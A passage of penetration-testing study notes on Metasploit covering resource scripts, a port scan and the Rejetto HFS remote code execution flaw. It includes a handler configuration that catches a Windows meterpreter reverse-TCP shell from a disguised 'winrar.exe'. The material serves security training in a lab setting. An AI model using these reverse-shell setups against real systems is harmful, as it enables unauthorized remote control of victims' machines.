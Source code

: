 Then you can execute the `winrar.exe` on the Windows system and you gain meterpreter on the kali attacker.

### Resource scripts MSF automation

* MSF resource scripts are a feature that allow you to automate repetitive tasks and commands.
* They operate similarly to batch scripts, whereby, you can specify a set of MSFconsole commands that you want to execute sequentially.
* You can load the script with MSFconsole and automate the execution of the commands you specified in the resource script.
* We can use resource scripts to automate various tasks like setting up multi handlers as well as loading and executing payloads.

**Script 1**

```bash
kali@kali> ls -la /usr/share/metasploit-framework/scripts/resources/
kali@kali> vim handler.rc
```

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.10.5
set lport 1234
run
```

```bash
kali@kali> msfconsole -r handler.rc  # not in msfconsole yet
msf6> resource handler.rc            # already using msfconsole
msf6> makerc saved_commands.rc       # save previous commands
```

**Script 2**

```bash
kali@kali> portscan.rc
```

```
use auxiliary/scanner/portscan/tcp
set rhosts 10.10.10.7
run
```

```bash
kali@kali> msfconsole -r portscan.rc
```

### Windows : HTTP File Server

* An HTTP File Server (HFS) is a web server that is designed for file & document sharing.
* HFS typically run on TCP port 80 and utilize the HTTP protocol for underlying communication
* Rejetto HFS is a popular free and open source HFS that can be setup on both Windows and Linux.
* Rejetto HFS V2.3 is vulnerable to a RCE attack.
* MSF has an exploit module that we can utilize to gain access to the target system hosting the HFS.
